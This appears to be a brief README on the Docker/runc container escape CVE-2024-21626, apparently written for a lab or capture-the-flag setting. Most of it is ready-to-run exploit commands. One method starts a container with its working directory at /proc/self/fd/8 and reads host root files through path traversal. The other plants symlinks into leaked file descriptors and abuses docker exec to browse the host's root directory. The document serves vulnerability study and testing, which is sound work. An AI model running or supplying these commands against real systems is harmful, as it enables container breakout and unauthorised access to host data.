 # Docker Escape Vulnerability CVE-2024-21626

## Research link: https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd

### According to the article, it can be exploited in 2 ways:

#### 1) Set the working directory of the container to /proc/self/fd/<fd> (where <fd> stands for the file descriptor when opening /sys/fs/cgroup in host filesystem. Usually it’s 7 or 8) when running a container.

#### 2) Create a symlink for /proc/self/fd/<fd> (where <fd> stands for the file descriptor when opening /sys/fs/cgroup in host filesystem. Usually it’s 7 or 8). When users execute commands inside the container via docker exec or kubectl exec by setting the working directory to the symlink, attackers can access host filesystem through /proc/<PID>/cwd, where <PID> stands for the PID of the process generated by docker exec or kubectl exec command.

## Commands:

### 1) Exploit via Setting Working Directory to /proc/self/fd/

 - docker run -w /proc/self/fd/8 --name cve-2024-21626 --rm -it debian:bookworm 

 - cat ../../../../../../root/root/.txt

### 2) Docker Exec

 - Containerised root shell:> ln -sf /proc/self/fd/7/ /foo

 - Containerised root shell:> ln -sf /proc/self/fd/8/ /bar

 -  Attacker shell:> docker exec -it -w /bar cve-2024-21626 sleep 120

 - Containerised root shell:> ls -f /proc

 - Containerised root shell:> cat /proc/NUM/cmdline

 - Containerised root shell:> ls -la /proc/NUM/cwd/../../../../root/
